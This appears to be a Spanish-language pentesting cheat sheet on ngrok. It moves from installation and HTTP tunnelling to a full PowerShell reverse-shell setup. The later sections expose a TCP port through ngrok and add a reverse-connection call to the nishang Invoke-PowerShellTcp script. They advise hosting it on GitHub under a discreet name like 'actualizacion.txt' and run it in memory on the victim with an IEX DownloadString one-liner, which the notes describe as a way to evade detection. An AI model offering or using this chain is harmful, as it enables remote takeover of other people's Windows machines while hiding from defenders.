 # Ngrok

Tags: #Ngrok #Windows #Powershell 

## Instalación

* [Ngrok-Windows](https://download.ngrok.com/windows)

```bash 
# Para Linux 

❯ wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz     # Descargas el binario                     
❯ tar xvzf ngrok-v3-stable-linux-amd64.tgz           # Descomprimes el binario
❯ ./ngrok config add-authtoken PEGA_AQUI_TU_TOKEN    # Agrega el Token de tu cuenta a Kali
```

## Comandos 

```bash 
❯ ngrok help                   # Panel de ayuda 
❯ ngrok http 80                # Se publica una web de local a publica con un enlace que nos proporciona Ngrok
```

## Revershell Ngrok y Powershell

* [Invoke-PowershellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```bash 
❯ ngrok tcp 443         # Exponemos publico el puerto 443 y Ngrok nos devolvera un 'tcp://2.tcp.ngrok.io:19215'. Utilizaremos la parte de '2.tcp.ngrok.io' en IPAddress y '19215' para el Port en el script de la revershell de abajo.  

❯ rlwrap nc -nlvp 443   # Recibir la revershell en Kali
```

```bash 
# Creamos un script con el contenido del enlace de arriba y al final le agregaremos este comando para poder usar Ngrok

❯ nvim Invoke-PowershellTCP.ps1

	Invoke-PowerShellTcp -Reverse -IPAddress 2.tcp.ngrok.io -Port 19215 

Nota: Este script lo podemos cargar a nuestro Github, ya que eso lo hara mas confiable al momento de llamarlo desde la maquina victima 
Nota: Podemos colocarle un nombre discreto al script como 'actualizacion.txt'
```

```bash 
# Desde la maquina victima con Windows llamamos al script que se encuentra almacenado en nuestro Github, esto lo hace a nivel de memoria por lo que es dificil de detectar y sirve como metodo de evasion

❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Scripts/main/Invoke-PowershellTCP.ps1')"
```